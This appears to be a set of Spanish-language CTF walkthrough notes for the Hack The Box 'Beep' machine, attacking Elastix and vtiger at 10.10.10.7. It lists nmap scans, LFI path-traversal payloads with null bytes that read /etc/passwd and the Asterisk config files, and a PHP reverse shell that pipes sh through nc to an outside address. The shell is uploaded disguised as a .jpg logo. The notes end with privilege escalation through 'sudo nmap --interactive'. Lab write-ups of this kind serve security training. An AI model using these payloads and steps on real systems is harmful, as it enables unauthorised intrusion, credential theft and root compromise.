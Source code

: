# BEEP

IP: 10.10.10.7

# Ping y ttl

`ping -c 1 10.10.10.7`

`whichSystem.py 10.10.10.7`

## Scanning

`nmap -p- --open -T5 -v -n 10.10.10.7 -oN allPorts`

`nmap -sC -sV -p22,111,3306,995,80,143,993,443,110,25,4445 10.10.10.7 -oN targetedPorts`

Navegamos a la web con el puerto 80

- wapallyzer
- `whatweb http://10.10.10.7`
- buscar que es elastix 
- default credentials elastix
- `searchsploit elastix`
- `searchsploit -x /path` --> FLI
- ../../../etc/amportal.conf%00&module=Accounts&action

`ssh root@10.10.10.7` --> pass 

~~~
ls
whoami
cat root.txt
cd ..
find \-name user.txt 2>/dev/null
~~~

## 2º opcion

- ../../../etc/passwd%00&module=Accounts&action

`cat targetedPorts | grep "http"`

`cat targetedPorts | grep "http" | grep -oP '\d{1,5}/tcp'`  

- Vamos a 10.10.10.7:10000
- ../../../etc/asterisk/asterisk.conf%00&module=Accounts&action
- ../../../etc/asterisk/manager.conf%00&module=Accounts&action

- Entramos en 10.10.10.7/vtigercm/index.php
- Visitamos http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet 
- nano shell.php
~~~
<?php
    system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.23 443 >/tmp/f");
?>
~~~

`nc -nlvp 443`

`mv shell.php shell.php.jpg`

Subimos el archivo en la seccion company cambiando el logo.

`whoami`

`script /dev/null -c bash`

`cd /home/fanis`

## Escalada de privilegios

~~~
sudo -l
sudo nmap --interactive
!sh
whoami
cd /root
cat root.txt
~~~

`sudo chown asterisk:asterisk -R root/`
`whoami`

